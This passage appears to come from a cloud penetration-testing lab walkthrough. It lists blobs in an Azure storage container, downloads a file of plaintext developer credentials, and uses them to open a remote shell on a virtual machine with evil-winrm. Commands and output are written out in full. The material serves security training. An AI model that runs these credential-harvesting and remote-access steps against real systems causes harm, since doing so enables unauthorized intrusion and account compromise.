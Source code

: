 In this case we can list and read blobs from the `general-purpose` container
```
$context = New-AzStorageContext -StorageAccountName storageqaenv
$containername = (Get-AzStorageContainer -Context $context -Name general-purpose).name
Get-AzStorageBlob -Container $containername -Context $context
```
```
└─PS> Get-AzStorageBlob -Container $containername -Context $context
                                                                                                                        
   AccountName: storageqaenv, ContainerName: general-purpose                                                            
                                                                                                                        
Name                 BlobType  Length          ContentType                    LastModified         AccessTier SnapshotTime                 IsDeleted  VersionId
----                 --------  ------          -----------                    ------------         ---------- ------------                 ---------  ---------
Dev-cred.txt         BlockBlob 348             text/plain                     2023-12-19 05:10:07Z Hot                                     False      
Release_Notes.txt    BlockBlob 219             text/plain                     2023-12-17 03:55:14Z Hot                                     False      
Terms and Condition… BlockBlob 354             text/plain                     2023-12-17 03:55:14Z Hot                                     False      
meeting_minutes.txt  BlockBlob 308             text/plain                     2023-12-17 03:41:45Z Hot                                     False      
```
Let's download `Dev-cred.txt` blob 
```
└─PS> Get-AzStorageBlobContent -Container $containerName -Blob Dev-cred.txt -Context $context                                                                                                                                               
                                                                                                                        
   AccountName: storageqaenv, ContainerName: general-purpose                                                            
                                                                                                                        
Name                 BlobType  Length          ContentType                    LastModified         AccessTier SnapshotTime                 IsDeleted  VersionId
----                 --------  ------          -----------                    ------------         ---------- ------------                 ---------  ---------
Dev-cred.txt         BlockBlob 348             text/plain                     2023-12-19 05:10:07Z Hot                                     False      
```
It contains credentials to establish a PowerShell Remoting session on the virtual machine as de`vuser
```
└─PS> cat ./Dev-cred.txt

# credentials for the DEV team
$passw = ConvertTo-SecureString "<REDACTED>" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('devuser',$passw)

$vm = New-PSSession -ComputerName 172.191.90.57 -Credential $cred -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession -Session $vm
```
Let's connect to VM using new credentials via `evil-winrm` (we could also connect via `ssh` since port scan showed that SSH was open)
```
└─$ evil-winrm -i 172.191.90.57 -u devuser -p '<REDACTED>'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
```